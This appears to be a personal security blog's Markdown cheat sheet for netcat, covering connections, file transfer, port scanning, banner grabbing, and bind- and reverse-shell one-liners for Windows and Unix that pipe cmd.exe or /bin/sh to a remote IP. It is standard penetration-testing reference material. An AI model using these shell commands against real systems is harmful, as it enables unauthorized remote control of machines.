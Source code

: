 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***

![Netcat Usage](https://github.com/bradleythornton/thor-sec/blob/master/assets/images/netcat.JPG)

# Basic  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
